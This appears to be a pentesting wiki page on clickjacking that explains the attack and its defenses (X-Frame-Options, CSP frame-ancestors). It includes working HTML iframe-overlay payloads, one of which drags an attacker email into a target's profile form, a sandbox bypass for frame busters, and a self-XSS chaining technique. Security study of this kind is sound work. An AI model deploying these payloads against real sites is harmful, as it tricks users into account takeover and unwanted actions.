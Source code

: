 # Clickjacking

## What is Clickjacking

Clickjacking is an attack that **tricks **a **user** into **clicking **a webpage **element **which is **invisible **or disguised as another element. This can cause users to unwittingly download malware, visit malicious web pages, provide credentials or sensitive information, transfer money, or purchase products online. (From [here](https://www.imperva.com/learn/application-security/clickjacking/)).

### Prepopulate forms trick

Sometimes is possible to **fill the value of fields of a form using GET parameters when loading a page**. An attacker may abuse this behaviours to fill a form with arbitrary data and send the clickjacking payload so the user press the button Submit.

### Populate form with Drag\&Drop

If you need the user to **fill a form** but you don't want to directly ask him to write some specific information (like your email or and specific password that you know), you can just ask him to **Drag\&Drop** something that will write your controlled data like in [**this example**](https://lutfumertceylan.com.tr/posts/clickjacking-acc-takeover-drag-drop/).

### Basic Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### Multistep Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:330px;
       left:60px;
       z-index: 1;
   }
   .secondClick {
       left:210px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```

### Drag\&Drop + Click payload

```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```

### XSS + Clickjacking

If you have identified a **XSS attack that requires a user to click** on some element to **trigger **the XSS and the page is **vulnerable to clickjacking**, you could abuse it to trick the user into clicking the button/link.\
Example:\
_You found a **self XSS** in some private details of the account (details that **only you can set and read**). The page with the **form **to set this details is **vulnerable **to **Clickjacking **and you can **prepopulate** the **form **with GET parameters._\
__An attacker could prepared a **Clickjacking **attack to that page **prepopulating **the **form **with the **XSS payload **and **tricking **the **user **into **Submit **the form. So, **when the form is submited** and the values are modified, the **user will execute the XSS**.

## How to avoid Clickjacking

### Client side defences

It's possible to execute scripts on the client side that perform some or all of the following behaviours to prevent Clickjacking:

* check and enforce that the current application window is the main or top window,
* make all frames visible,
* prevent clicking on invisible frames,
* intercept and flag potential clickjacking attacks to the user.

#### Bypass

As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the **HTML5 iframe `sandbox` attribute**. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

```markup
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms allow-scripts"></iframe>
```

Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviours while allowing functionality within the targeted site.

Depending on the type of Clickjaking attack performed** you may also need to allow**: `allow-same-origin` and `allow-modals` or [even more](https://www.w3schools.com/tags/att_iframe_sandbox.asp). When preparing the attack just check the console of the browser, it may tell you which other behaviours you need to allow.

### X-Frame-Options

The **`X-Frame-Options` HTTP response header** can be used to indicate whether or not a browser should be **allowed **to render a page in a `<frame>` or `<iframe>`. Sites can use this to avoid Clickjacking attacks, by ensuring that **their content is not embedded into other sites**. Set the **`X-Frame-Options`** header for all responses containing HTML content. The possible values are:

* `X-Frame-Options: deny` which** prevents any domain from framing the content **_(Recommended value)_
* `X-Frame-Options: sameorigin` which only **allows the current site** to frame the content.
* `X-Frame-Options: allow-from https://trusted.com` which **permits the specified 'uri'** to frame this page.
  * Check limitations below because** this will fail open if the browser does not support it**.
  * Other browsers support the new **CSP frame-ancestors directive instead**. A few support both.

### Content Security Policy (CSP) frame-ancestors directive

The** recommended clickjacking protection** is to incorporate the **`frame-ancestors` directive** in the application's Content Security Policy. \
The **`frame-ancestors 'none'`** directive is similar in behaviour to the **X-Frame-Options `deny`** directive (_No-one can frame the page_). \
The **`frame-ancestors 'self'`** directive is broadly equivalent to the **X-Frame-Options `sameorigin`** directive (_only current site can frame it_). \
The **`frame-ancestors trusted.com`** directive is broadly equivalent to the **X-Frame-Options **`allow-from`directive (_only trusted site can frame it_).

The following CSP whitelists frames to the same domain only:

`Content-Security-Policy: frame-ancestors 'self';`

See the following documentation for further details and more complex examples:

* [https://w3c.github.io/webappsec-csp/document/#directive-frame-ancestors](https://w3c.github.io/webappsec-csp/document/#directive-frame-ancestors)
* [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)

### Limitations <a href="limitations" id="limitations"></a>

* **Browser support:** CSP frame-ancestors is not supported by all the major browsers yet.
* **X-Frame-Options takes priority:** [Section "Relation to X-Frame-Options" of the CSP Spec](https://w3c.github.io/webappsec/specs/content-security-policy/#frame-ancestors-and-frame-options) says: "_If a resource is delivered with an policy that includes a directive named frame-ancestors and whose disposition is "enforce", then the X-Frame-Options header MUST be ignored_", but Chrome 40 & Firefox 35 ignore the frame-ancestors directive and follow the X-Frame-Options header instead.

## References

* ****[**https://portswigger.net/web-security/clickjacking**](https://portswigger.net/web-security/clickjacking)****
* [**https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html**](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)****
